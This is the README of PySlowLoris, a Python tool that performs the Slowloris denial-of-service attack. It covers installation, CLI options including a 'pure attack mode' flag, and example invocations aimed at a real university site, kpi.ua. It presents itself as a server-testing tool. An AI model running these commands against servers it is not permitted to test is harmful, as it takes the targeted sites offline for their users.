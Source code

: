 # PySlowLoris

[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-3.11-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![PyPI version](https://badge.fury.io/py/pyslowloris.svg)](https://badge.fury.io/py/pyslowloris)

PySlowLoris is a tool for testing if your web server is vulnerable to slow-requests kind of attacks. The module is based on python-trio for Asynchronous I/O and poetry for dependency management. The idea behind this approach to create as many connections with a server as possible and keep them alive and send trash headers through the connection. Please DO NOT use this in the real attacks on the servers.

More information about the attack you can find [here].

### Installation

#### PyPi

For installation through the PyPI:

```sh
pip install pyslowloris==2.0.1
```

This method is prefered for installation of the most recent stable release.

#### Source-code

For installation through the source-code for local development:

```sh
git clone https://github.com/[username]/SlowLoris.git
cd SlowLoris
pip install poetry pre-commit
pre-commit install
pyenv install 3.8.3
pyenv local 3.8.3
poetry env use 3.8.3
```

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] -u URL [-c CONNECTION_COUNT] [-s]

Asynchronous Python implementation of SlowLoris attack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Link to a web server (http://google.com) - str
  -c CONNECTION_COUNT, --connection-count CONNECTION_COUNT
                        Count of active connections (default value is 247) - int
  -s, --silent          Ignore all of the errors [pure attack mode] - bool
```

### Docker usage

#### Download image from Docker Hub

Pull the image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run a container:

```bash
docker pull maxkrivich/pyslowloris
docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

#### Build image from source-code

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run a container:

```bash
docker build -t pyslowloris .
docker run --rm -it pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

**Note:** *Don't forget about 'sudo'!*

### Example of usage

#### How to use module through Python API

Here is an example of usage

```python
from pyslowloris import HostAddress, SlowLorisAttack

url = HostAddress.from_url("http://kpi.ua")
connections_count = 100

loris = SlowLorisAttack(url, connections_count, silent=True)
loris.start()
```

#### How to use module via CLI

The following command helps to use module from command line

```sh
slowloris -u http://kpi.ua/ -c 100 -s
```

###### stop execution: Ctrl + C

### Testing

#### Testing with real apache server

```bash
docker-compose up web_server -d
.....
```

#### Module-tests

```bash
make pytest
```

### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact me.

### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017-2020 Maxim Krivich

[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
